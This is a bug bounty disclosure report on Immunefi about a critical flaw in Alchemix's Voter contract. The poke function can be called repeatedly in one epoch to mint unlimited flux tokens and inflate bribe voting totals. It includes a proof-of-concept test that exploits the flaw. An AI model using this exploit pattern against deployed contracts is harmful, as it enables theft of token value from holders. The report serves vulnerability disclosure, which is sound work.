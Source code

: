
# Users can vote multiple times in one epoch 

Submitted on May 20th 2024 at 05:58:18 UTC by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31483

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Theft of unclaimed yield

## Description
## Brief/Intro
Users can mint unlimited flux by calling `poke` multiple times 

## Vulnerability Details
The vote function at voter uses onlyNewEpoch modifier so users can vote only once per epoch and receive flux tokens, however, the `poke` function that applies voting in the last epoch to the current epoch doesn't use this modifier and user can call it multiple times in one epoch and receive unlimited flux 
also, every time `_vote` function is called in `poke`, it resets the last voting and calls deposit at the bribe which inflates total voting at bribe so distributed rewards to bribe would be lost ( total voting used to calculate amount of rewards has been distributed per token ) 

## Impact Details
Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield ) , the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

Loss of distributed rewards at underlying bribes 
## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212



## Proof of Concept
```
function testVoteWithoutLimit() external {

        // create lock token for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);

        // assert user has no unclaimed flux 
        uint256 unclaimedFlux1Start = flux.getUnclaimedFlux(tokenId1);
        assertEq(unclaimedFlux1Start, 0, "should start with no unclaimed flux");


        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        // vote and calling poke multiple times 
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);

        // as we see user has received 6 times more rewards as we called poke multiple times
        uint256 actualFluxClaimed = 6 * token1Flux;
        uint256 unclaimedFlux1End = flux.getUnclaimedFlux(tokenId1);
        assertEq(actualFluxClaimed, unclaimedFlux1End);

    }
```